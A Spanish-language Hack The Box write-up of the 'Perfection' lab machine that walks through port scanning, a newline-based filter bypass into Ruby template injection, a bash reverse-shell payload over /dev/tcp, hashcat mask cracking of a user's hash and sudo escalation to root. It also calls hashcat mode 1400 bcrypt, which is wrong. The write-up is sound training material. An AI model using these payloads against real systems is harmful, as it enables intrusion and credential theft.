 ```yaml
---
layout: single
title: Perfection - Hack The Box
excerpt: ""
date: 2024-6-1
classes: wide
header:
  teaser: /assets/images/htb-writeup-perfection/perfection_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - XSS
  
---
```


![](/assets/images/htb-writeup-perfection/perfection_logo.png)

# PortScan
____

```bash
nmap -sCV -p22,80 10.10.11.253 

# Nmap 7.94SVN scan initiated Sat Jun  1 17:04:27 2024 as: nmap -sCV -p22,80 -oN targeted 10.10
Nmap scan report for 10.10.11.253
Host is up (0.068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  1 17:04:36 2024 -- 1 IP address (1 host up) scanned in 9.94 seconds
```


# Sitio Web
![](/assets/images/htb-writeup-perfection/Pasted image 20240601185515.png)

Vemos que a simple vista tiene 3 posibles directorios, empiezo a indagar en ellos... empezando por el **About**.

![](/assets/images/htb-writeup-perfection/Pasted image 20240601185607.png)

Viendo dos nombres del equipo, tanto de la desarrolladora como la profesora, que quizás me sirvan mas adelante, me los guardo... ahora entro a la **calculadora de nota.**

![](/assets/images/htb-writeup-perfection/Pasted image 20240601185748.png)

empiezo a poner inputs, respetando el máximo & tratar de llevar a cabo una ejecución de comando y no logro nada, decido usar **BurpSuite** para ver la **DATA** como se tramita & tratar poder ejecutar comandos, o intentarlo...

![](/assets/images/htb-writeup-perfection/Pasted image 20240601190554.png)

detectaba el **input malicioso**, intente **bypassearlo** de varias manera, no logre nada exitoso por un rato, pero finalmente...

descubrí lo que es el **CRLF**, que son secuencias de caracteres especiales en el protocolo **HTTP** para iniciar una nueva **línea**, pudiendo así crear una nueva línea así que empecé a probar payload típicos de **SSTI** contemplados en [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

Solo me funcionaron lo que empiezan con **<%%>**, pero **URLencodeando** todo, debido al **CRLF** para nueva línea que esta representado como:_ **"%0a"**.

![](/assets/images/htb-writeup-perfection/Pasted image 20240601191905.png)
```bash
T%0a<%25%3d7*7%25>
```
![](/assets/images/htb-writeup-perfection/Pasted image 20240601191925.png)

esta haciendo la multiplicación, así que ahora busco payload's para llevar a cabo un **RCE** & obtener nuestra Reverse Shell.

Nos ponemos en escucha con **Netcat**:
```bash
nc -nlvp PORT
```

![](/assets/images/htb-writeup-perfection/Pasted image 20240601192558.png)

```bash
T%0a<%25%3dsystem("bash+-c+'bash+-i+>%26/dev/tcp/IP/PORT+0>%261'")%3b%25>
```

![](/assets/images/htb-writeup-perfection/Pasted image 20240601192731.png)

Y ganamos acceso a la maquina como **Susan**, ya quedaría darle **tratamiento a la TTY,** que sino sabes como [((HAZ CLICK AQUi))](https://4uli.github.io/tratamiento-tty/#)

# Escalada de Privilegios

Empecé a indagar como **Susan** en el sistema, encontrando así el siguiente mail que recibió Susan.

 ![](/assets/images/htb-writeup-perfection/Pasted image 20240601193340.png)
 
básicamente, le estaban sugiriendo una contraseña, que empiece con el nombre, barra baja, el nombre al revés, barra baja números de 1 a 1 millón.

de primeras no me pareció interesante, seguí indagando...

descubrí este directorio, con esto:
![](/assets/images/htb-writeup-perfection/Pasted image 20240601193551.png)
una base de datos en **sqlite** formato 3, decidí conectarme a esta db, aunque ya podía ver los datos, pero no estaba seguro...

![](/assets/images/htb-writeup-perfection/Pasted image 20240601193834.png)

viendo así los usuarios & un **hash**, que seguramente sea la contraseña, tenemos una pista... que fue el correo que vimos anteriormente que recibió Susan, por lo que podemos intuir al menos los primeros caracteres de la contraseña, así que intento fuerza bruta con **Hashcat** en mi windows y con esta pista.

```bash
.\hashcat.exe -a 3 -m 1400 hash.txt "susan_nasus_?d?d?d?d?d?d?d?d?d" 
```

**-a 3:** este parámetro indica que el ataque será de modo "mascara."
**-m 1400**: indica el modo del hash, en este caso bcrypt.
**-hash.txt:** aquí dentro esta el hash que vimos en la base de datos.
**-"susan_nasus_?d?d?d?d?d?d?d?d?d"** : indica el inicio de la posible contraseña con la pista del correo, que es el nombre normal, al revés, y luego 9 posibles números.

![](/assets/images/htb-writeup-perfection/cracking.png)

obteniendo así la que podría ser la contraseña para Susan, así que procedo a probar para ver los **SUDOERS**.

![](/assets/images/htb-writeup-perfection/Pasted image 20240601195051.png)

Puedo ejecutar como quien sea lo que sea, así que me convierto en **ROOT** ya sabiendo las credenciales de **Susan**.

![](/assets/images/htb-writeup-perfection/Pasted image 20240601195153.png)
